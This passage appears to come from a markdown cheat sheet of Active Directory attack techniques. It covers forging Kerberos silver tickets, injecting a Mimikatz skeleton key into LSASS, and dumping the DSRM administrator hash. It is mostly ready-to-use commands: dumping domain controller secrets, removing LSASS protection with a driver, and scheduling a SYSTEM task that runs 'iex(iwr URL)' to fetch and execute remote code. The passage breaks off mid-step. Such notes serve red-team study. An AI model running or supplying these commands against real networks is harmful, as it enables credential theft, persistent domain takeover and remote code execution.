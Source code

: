 > :five: ***Sliver Tickets*** -- Service account NTLM value is key of encryption (TGS)

> > Dump Services RC4 {RID:1000, User:DCORP-DC$} 
> >
> > :five::a:`Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc`
> >
> > :five::b: `Invoke-Mimkatz -Command '"kerberos::golden /domain:<DOMAINNAMEFQDN> /sid:<Domain SID> /target:<server FQDN> /service:<ServiceName> /rc4:<RC4 NTLM HASH>  /User:Administrator  /ptt"'`
> >
> > :information_source: `Host -> to start schdule ` , `cifs -> explorer file system`
> >
> > ***Use Sliver Ticket to run task*** 
> >
> > >  ```
> > > schtasks /create /S <DomainNAme> /SC Weekly /RU "NT Authority\SYSTEM" /TN "<TaskNAme>" /TR "<Task action>"
> > >  ```
> > >
> > > `/TR "powershell.exe -c 'iex(iwr URL)'"`
> > >
> > > Run Task
> > >
> > > > `schtasks /Run /S <DomainName> /TN "TASKNAME"`

> :six: ***Skeleton Key*** -- Patch Lsass by injecting Skeleton key to access any resources (Password: mimikatz) **DC not rebooted**

> > Domain Admin is required 
> >
> > `Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <DomainNAmeFQDN>` **Then**
> >
> > `Enter-PSSEssion -ComputerName <DomainController> -credential <domain>\Administrator`
> >
> > ***Protected Lsass*** -- Copy mimidriv.sys on the target's hard disk
> >
> > > ```
> > > mimikatz # privilege::debug
> > > 
> > > mimikatz # !+
> > > 
> > > mimikatz # !processprotect /process:lsass.exe /remove
> > > 
> > > mimikatz # misc::skeleton
> > > 
> > > mimikatz # !-
> > > ```
>
> :seven: ***DSRM*** -- Safe mode of any domain controller -- Directory Services Restore Mode ***SafeModePassword***  -- Rarely change
>
> > :information_source: Local Administrator's password on DC ( different from RID:500) 
> >
> > :rotating_light: Domain Admin Access Required
> >
> > ```
> > Invoke-mimikatz -Command '"token::elevate" "lsadump::sam"' - ComputerName <DomainControlerFQDN>
> > ```
> >
> > ***Then*** Change logon behavior to the local admin account by adding ***Hive*** 
> >
> > > `Enter-PSSession -ComputerName <DomainControllerFQDN> `
> > >
> > > **Then**
> > >